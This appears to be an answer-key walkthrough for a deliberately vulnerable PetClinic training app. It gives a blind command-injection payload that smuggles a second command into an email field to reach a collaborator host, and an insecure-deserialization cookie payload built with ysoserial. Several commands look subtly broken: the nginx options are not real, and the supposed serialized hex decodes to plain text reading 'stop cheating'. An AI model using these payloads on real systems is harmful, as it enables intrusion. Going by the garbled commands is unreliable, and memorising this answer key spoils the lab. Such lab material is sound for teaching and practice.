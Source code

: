 PetClinic Quick Reference

Blind OSCI:
- Location: /contact_submission email parameter (server side resolution of the email as being legitimate in the Contact Us page)
- Controls: No immediate response, so you have to use built in Nginx tools to send a request to collaborator
- Example Payload: email=test@test.com && /usr/bin/nginx -g webrequest -h <collaboratorURL>
(URL encoded for easy pasting) email=test%40test.com%20&&%20/usr/bin/nginx%20-g%20webrequest%20-h%20<collaboratorURL>

Insecure Deserialization: 
- Location: JSESSIONID cookie
- Controls: Only the CommonsCollections5 gadget chain works
- Example Payload: (in command line) java -jar ysoserial.jar FileUpload1 CommonsCollections5 “write;/test;hihi” -o hex
(hex output) 73746f70206368656174696e6773746f9caafe61e06450b536e430e364e834463dc95f6576c5536f3f382d4a0eb7263d19fbc7878485871843d2fd4474696e67
(usage) JSESSIONID=73746f70206368656174696e6773746f9caafe61e06450b536e430e364e834463dc95f6576c5536f3f382d4a0eb7263d19fbc7878485871843d2fd4474696e67
(proof) Navigate to /test and observe the file with the contents "hihi"


TODO

<!-- PetClinic Pet Clinic answer key walkthrough walk through -->
